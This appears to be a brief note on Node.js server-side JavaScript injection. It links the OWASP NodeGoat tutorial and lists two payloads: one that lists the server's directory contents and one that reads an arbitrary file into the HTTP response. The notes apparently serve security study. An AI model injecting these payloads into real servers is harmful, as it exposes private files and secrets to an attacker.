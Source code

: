#code_injection  #nodejs

## Resource
https://ckarande.gitbooks.io/owasp-nodegoat-tutorial/content/tutorial/a1_-_server_side_js_injection.html 


## List directory content
```node
res.end(require('fs').readdirSync('.').toString())
```


## Read File
```node
res.end(require('fs').readFileSync(filename))
```
